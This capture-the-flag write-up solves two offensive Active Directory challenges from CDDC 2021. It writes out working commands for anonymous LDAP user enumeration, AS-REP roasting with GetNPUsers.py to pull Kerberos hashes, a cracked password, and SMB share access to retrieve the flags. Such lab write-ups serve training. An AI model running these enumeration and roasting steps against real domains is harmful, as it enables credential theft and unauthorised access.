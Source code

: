 # Behind The Mask

This was a series of offensive Active Directory challenges hosted during CDDC 2021.

## Challenge #1: Light  
### Points: 200
### Challenge Text:  
It’s time to expose the GDC! We have successfully obtained the IP address of their AD server.   
First, try to list the different users that are configured on the server.  

### Solution  
The list of users from the DC can be obtained with the following command:  
```ldapsearch -LLL -x -H ldap://18.136.74.102 -b ‘DC=gdc,DC=local' > enumAD.txt```  
The flag is in the description for one of the users. I just opened the enumAD.txt file and
ctrl+F'ed for the flag format.  
  
![flag](./Behind_The_Mask/light.png)

## Challenge #1: Get a Ticket
### Points: 300
### Challenge Text:  
We must find a way to access the shared folders configured on this server. I don’t see anyway, but maybe you can figure it out…

### Solution  
Since these challenges are locked in order, I assume that each challenge is dependant on the solution to the
previous one. Since the previous challenge was to get a list of users, I originally assumed the solution was to
find a service account and kerberoast it.  
  
However, no accounts vulnerable to kerberoasting were found. We eventually solved the challenge by ASREP-Roast-ing user accounts
found in the previous challenge for kerberos tickets. The following command was used:

python GetNPUsers.py gdc.local/ -usersfile usernames.txt -format hashcat -outputfile tickets.txt
  
![tickets](./Behind_The_Mask/tickets.png)
  
Kerberos tickets for the user liam.a were obtained. The tickets were roasted and the password for liam.a was obtained.  

![cracked](./Behind_The_Mask/cracked.png)
  
Using the password p@ssw0rd and the user liam.a, I listed the network shares.

```
smbclient -L //18.136.74.102/ -U liam.a
Enter WORKGROUP\liam.a's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin                                                                                                                                                                      
        Backup          Disk                                                                                                                                                                                        
        C$              Disk      Default share                                                                                                                                                                     
        Forensics       Disk                                                                                                                                                                                        
        IPC$            IPC       Remote IPC                                                                                                                                                                        
        Mission2 Flag   Disk                                                                                                                                                                                        
        NETLOGON        Disk      Logon server share                                                                                                                                                                
        SYSVOL          Disk      Logon server share  


smbclient //18.136.74.102/Mission2\ Flag -U liam.a  
...
cat flag.txt  
CDDC21{4S_REP_R0A$T}
```